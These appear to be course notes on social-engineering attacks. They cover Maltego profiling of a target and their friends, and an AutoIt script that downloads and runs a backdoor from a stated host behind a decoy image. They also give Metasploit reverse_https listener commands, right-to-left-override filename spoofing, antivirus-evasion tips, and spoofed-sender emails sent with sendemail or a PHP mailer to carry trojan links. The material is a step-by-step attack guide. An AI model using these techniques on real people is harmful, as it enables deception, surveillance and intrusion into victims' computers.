 # Client side attacks — social engineering
-   There are many tools on market for this activity
-   It is mainly about gathering as much information about target person and creating strategy how to manipulate the target person to help us with the hack

## Tool <strong>Maltego</strong>
-   It can automatically find information regarding target. 
-   Example 1st step gather information:
    1)  Create graph
    2)  Put person inside the Graph
    3)  Fill the name
    4)  Right click on Person and in transformers find websites
    5)  It will try to find all websites connected to the name including profiles on platforms like Udemy, Stack Overflow...
    6)  Go through all the found websites and if more information was found, start filling the graph. Did you find Twitter/Facebook/Instagram... account? Put them in.
    7)  To add more entities, than shown on left side. Find the correct one under Entity option in top bar.
    8)  If did you find Twitter, create entity Twitter fill the information. Right click and find friends on twitter.
    9)  Did you find email? Add new entity email address and set the email you found. Right click and try to find more with transforms.
        -   Possible way, choose domain name
        -   after the domain shows right click and try to get email addresses or try to find a website and from there try to find more email addresses

-   Example 2nd step build strategy:
    1)  Put the Person on the top and connect the gathered information that was gathered based on relations.
    2)  Explore the graph, we could find work colleagues which might be also friends. Email that looks like coming from person like this can be sent to the target person, which will include for example backdoor.

## Include backdoor created before with any file
-   Use file created in 08_client_side_attacks and put it inside image / pdf / anything else
-   Steps (using Autoit):
    1)  Create auto download and run script (example: included in attachments file `autoit-download-and-execute.txt` to use the file, fill in the download URLs in line 4\). First URL is the not malicious file (example some image), Second should be direct URL to the backdoor (example: `192.168.72.129/evil_files/backdoor.exe`).
    2)  Change file extension from .txt to .au3
    3)  Create icon which will correspond to the non-malicious file. In our case image.
    4)  Open Compile Script (from Autoit). Tool is automatically installed with Veil.
        -   Choose source as our file
        -   Set destination
        -   Set custom icon created in step 3
        -   Click on convert and after done get the created .exe

-   Listen in Metasploit to any incoming connection (described in 08_client_side_attacks):
```bash
msfconsole
use exploit/multi/handler # use module which enables to listen to incoming connections
set PAYLOAD windows/meterpreter/reverse_https
set LHOST 192.168.72.129
set LPORT 8080
exploit # now if anybody opens the backdoor, it will come to this pc...
```
-   get the compiled script from point 4 to victim pc via email or any other method and wait for attacked person to open it. 
-   the file is shown on the victim's machine with icon we previously created and it will open the image for him, therefore it is less suspicious and it executes at background the malicious code. But it is still .exe

### Convert the file from .exe to any desired suffix
-   use right to left characters:
    -   rename the file in the way, that the desired suffix is on the contrary at the end of file name: `porsche.exe => porschegpj.exe`
    -   use `right to left override` character on the position where the contrary suffix starts
    -   system will now read the name in this way (see the source code of this file next to result to understand better): `porsche‮gpj.exe`
    -   best works with filenames which ends with exe
    -   when downloaded by browser. Browser will replace the right to left override character. To prevent it from happening zip the file.
Note: In my case Chrome is able to detect the virus inside .zip. But .7z went smoothly through. But then it was stopped via windows defender. I was able to make this work only after windows defender was down. Probably well known technique by antiviruses.

## Fake email method 1
-   Only works if the organization doesn't implement proper email authentication. Check if the domain can be spoofed can be done through [https://easydmarc.com/tools/dmarc-lookup](https://easydmarc.com/tools/dmarc-lookup). If there is no DMARC detected, the emails can be sent to the domain server. If DMARC is not implemented, attackers can make emails that look like it comes from the domain.
-   There are many websites for sending spoofed emails. The problem with them is that they will usually end up in spam box.
-   It is better to use SMTP servers. It is possible to send the malicious data via websites which are used for sending business emails like Brevo or Mailchimp. Example:
    1)  Create account and find information regarding smtp server to be able to connect and send emails through it.
    2)  Use `sendemail` tool. From email address should be someone who the victim knows. To address is the victims address. Include link to the trojan in the message body. Example:
        ```bash
        sendemail -xu email@address.com -xp passwordFromServer -s smtp.server.address.com:portNumber -f 'from.email@addres.com' -t 'to.email@address.com' -u 'subject text' -m 'message body' -o message-header="FROM: From Person <from.email@addres.com>"
        ```
        -   `-xu`, `-xp` and `-s` => authentication to smtp server (gathered from step 1)
        -   `-f` => sender could be victims friend / boss / anybody he knows
        -   `-t` => victims email
        -  `-o message-header=` => advanced option, this example shows how to change 'FROM', so the email looks like it came from the sender (in Gmail, this is also shown)
    3) After sent email like this, don't forget to again set the listener for incoming connection (such as Metasploit as described before)

## Fake emails method 2
-   Fake emails using PHP (requires web hosting)
-   Setup webhosting with support of sending emails, create webpage in php for sending emails including From field which is working on same basis as the command in method 2. See example inside the attachments/mailer.php
-   Again, send the email with the link and set Metasploit for listening.

